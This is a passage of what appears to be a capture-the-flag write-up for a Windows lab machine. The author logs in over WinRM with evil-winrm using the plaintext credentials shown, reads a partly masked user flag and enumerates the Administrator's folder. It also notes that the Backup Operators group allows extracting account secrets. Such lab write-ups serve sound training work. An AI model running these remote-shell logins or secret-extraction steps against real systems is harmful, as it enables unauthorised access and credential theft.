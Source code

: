 ```
sAMAccountName: it
```

The user was a member of the `Remote Management Users` group, indicating it may be able to log in via WinRM. It was also a member of the powerful `Backup Operators` group, which allows backing up and extracting sensitive information like account secrets. For now, I wanted to try logging in first.

I ran `evil-winrm` and successfully logged in.
```
❯ evil-winrm -i 10.129.234.71 -u Caroline.Robinson -p Password1

Evil-WinRM shell v3.7

Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents>
```

Then grabbed the user flag.
```
*Evil-WinRM* PS C:\Users\Caroline.Robinson\desktop> cat user.txt
c5fc3a**************************
```

## Administrator

### Enum

I enumerated the users folder and discovered root.txt in the Administrator's folder.
```
*Evil-WinRM* PS C:\users> tree /f /a
Folder PATH listing
Volume serial number is 7DCD-94E1
C:.
+---Administrator
|   +---3D Objects
|   +---Contacts
|   +---Desktop
|   |       root.txt  <---
|   |
|   +---Documents
|   +---Downloads
|   +---Favorites
|   |   |   Bing.url
|   |   |
|   |   \---Links
|   +---Links
|   |       Desktop.lnk
|   |       Downloads.lnk
|   |
|   +---Music
|   +---Pictures
|   +---Saved Games
|   +---Searches
|   \---Videos
+---Caroline.Robinson
|   +---Desktop
|   |       user.txt
|   |
|   +---Documents
```